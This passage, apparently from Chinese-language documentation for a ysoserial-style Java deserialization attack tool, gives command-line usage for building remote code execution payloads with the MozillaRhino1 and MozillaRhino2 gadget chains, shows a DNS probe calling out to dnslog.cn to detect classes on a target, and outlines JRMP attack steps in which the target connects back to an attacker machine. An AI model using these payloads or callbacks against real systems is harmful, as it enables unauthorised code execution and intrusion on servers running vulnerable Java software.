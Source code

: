 ```java
winlinux
```

#### 探测指定类是否存在

* 探测指定类是否存在

```java
-m YsoAttack -g FindGadgetByDNS -a "string.dnslog.cn:sun.misc.BASE64Decoder"
```

### MozillaRhino

#### MozillaRhino1

描述：通过调用TemplatesImpl的getOutputProperties方法来RCE，需要引入​rhino组件依赖，学习参考[Mozilla Rhino反序列化利用链学习](https://boogipop.com/2023/05/01/Mozilla%20Rhino%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE%E5%AD%A6%E4%B9%A0/)

工具：使用方式：

```bash
-m YsoAttack -g MozillaRhino1 -a "auto_cmd:calc"
```

#### MozillaRhino2

描述：通过调用TemplatesImpl的getOutputProperties方法来RCE，需要引入​rhino组件依赖，学习参考[Mozilla Rhino 反序列化漏洞 POC 分析](https://mp.weixin.qq.com/s/qm3mS78r43IIOHgZ-6YyGw)

工具：使用方式：

```bash
-m YsoAttack -g MozillaRhino2 -a "auto_cmd:calc"
```

### JRMP 协议打法

JRMP是RMI通信的时候使用协议，该协议传输数据时候通过Java序列化协议来操作。JRMP系列打法步骤如下：

1. 通过让目标站点反序列化JRMPListener/JRMPClient利用链
2. 攻击机直连目标或者目标反连攻击机来向目标站点传输序列化数据
3. 目标站点将该数据反序列化从而导致反序列化漏洞。

JRMP利用链的打法相当于利用JRMP协议进行二次反序列化，该利用链有以下特点：

1. 需要目标环境出网才能利用
2. 利用链短小精悍，JDK原生且因为是二次反序列化能避免初次反序列化限制
3. 有JDK版本限制，最好用的JRMPClient2也需要JDK<8u241

参考学习自：[从ysoserial讲RMI/JRMP反序列化漏洞](https://www.cnblogs.com/escape-w/p/16107675.html "发布于 2022-04-06 17:43")

#### payload.JRMPListener&exploit.JRMPClient/RMIRegistryExploit

限制：在jep290后就不能用了，JDK 7u131 JDK 8u121 以后
